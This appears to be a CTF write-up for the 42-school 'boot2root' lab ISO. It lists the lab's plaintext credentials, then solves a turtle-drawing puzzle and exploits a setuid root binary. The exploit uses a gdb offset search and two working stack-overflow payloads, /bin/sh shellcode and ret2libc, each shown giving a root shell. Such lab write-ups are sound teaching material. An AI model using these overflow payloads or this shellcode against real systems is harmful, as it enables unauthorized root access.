

# boot2root

<!--toc:start-->
- [boot2root](#boot2root)
  - [THOR Draw with turtle](#thor-draw-with-turtle)
  - [ZAZ Privilege escalation](#zaz-privilege-escalation)
    - [Exploit with shellcode](#exploit-with-shellcode)
    - [Exploit with ret2libc](#exploit-with-ret2libc)
<!--toc:end-->

Search for various means to pass root on the ISO given to you (42 project)

```txt
user mylittleforum:
lmezard:!q\]Ej?*5K5cy*AJ

mails:
admin@borntosec.net
qudevide@borntosec.net
thor@borntosec.net
wandre@borntosec.net
laurie@borntosec.net
zaz@borntosec.net

phpmyadmin:
root:Fg-'kKXBj87E:aJ$

ftp:
lmezard:G!@M6f4Eatau{sF"

ssh:
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135
zaz:646da671ca01bb5d84dbb5fb2238dc8e
```

<!-- TODO: fix link for file turtle and turtle script -->
## THOR Draw with turtle

In the thor home directory we can find a readme and a file named turtle.

```bash
thor@BornToSecHackMe:~$ cat README 
Finish this challenge and use the result as password for 'zaz' user.
```

The file turtle contain a list of move we need to do with
[turtle](https://docs.python.org/3/library/turtle.html) and finished with:

```bash
thor@BornToSecHackMe:~$ tail turtle
Avance 100 spaces
Recule 200 spaces
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```

We create a [script](draw_turtle.py) to do the actions describes in the file
turtle and get this image:



The letters appear and we can see the word `SLASH`.

After some research we find a meaning for the last line:

- MD5 stand for Message-digest hashing algorithm

```bash
thor@BornToSecHackMe:~$ echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
thor@BornToSecHackMe:~$ su zaz
Password: 
zaz@BornToSecHackMe:~$ id
uid=1005(zaz) gid=1005(zaz) groups=1005(zaz)
```

## ZAZ Privilege escalation

In the `zaz` home directory we can find a file named `exploit_me`.

```bash
zaz@BornToSecHackMe:~$ file exploit_me 
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped
zaz@BornToSecHackMe:~$ ls -la exploit_me 
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
```

It's a 32bits binary with setuid enable and is owned by root.
If we can execute some code it will be executed as if we were root.

Find offset of saved eip:

```bash
(gdb) r $(python -c 'print "A" * 64')
Starting program: /home/zaz/exploit_me $(python -c 'print "A" * 64')

Breakpoint 1, 0x0804842c in main ()
(gdb) x/32xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x804842c in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame's sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
(gdb) x/64xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff700:     0xb7fed280      0x00000000      0x08048449      0xb7fd0ff4
0xbffff710:     0x08048440      0x00000000      0x00000000      0xb7e454d3
```

Buffer start at `0xbffff690` and eip start at `0xbffff71c`.

```bash
(gdb) p 0xbffff71c - 0xbffff690
$2 = 140
```

The offset is 140. We can exploit now.

### Exploit with shellcode

We can use a shellcode because the stack is executable:

```bash
zaz@BornToSecHackMe:~$ readelf -l exploit_me | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 62 + "\xbf\xff\xf6\x50"[::-1])')
1Ph//shh/bin°
             ̀1@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

### Exploit with ret2libc

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`BBBBX
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
